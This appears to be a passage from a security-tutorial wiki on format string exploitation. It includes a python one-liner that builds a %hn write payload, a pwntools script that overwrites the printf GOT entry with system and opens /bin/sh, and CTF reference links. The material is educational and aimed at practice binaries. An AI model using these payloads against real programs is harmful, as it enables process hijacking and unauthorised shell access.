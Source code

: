 {% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools Template

You can find a **template** to prepare a exploit for this kind of vulnerability in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Or this basic example from [**here**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```

## Format Strings to BOF

It's possible to abuse the write actions of a format string vulnerability to **write in addresses of the stack** and exploit a **buffer overflow** type of vulnerability.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
  * 32 bit, no relro, no canary, nx, no pie, basic use of format strings to leak the flag from the stack (no need to alter the execution flow)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
  * 32 bit, relro, no canary, nx, no pie, format string to overwrite the address `fflush` with the win function (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
  * 32 bit, relro, no canary, nx, no pie, format string to write an address inside main in `.fini_array` (so the flow loops back 1 more time) and write the address to `system` in the GOT table pointing to `strlen`. When the flow goes back to main, `strlen` is executed with user input and pointing to `system`, it will execute the passed commands.
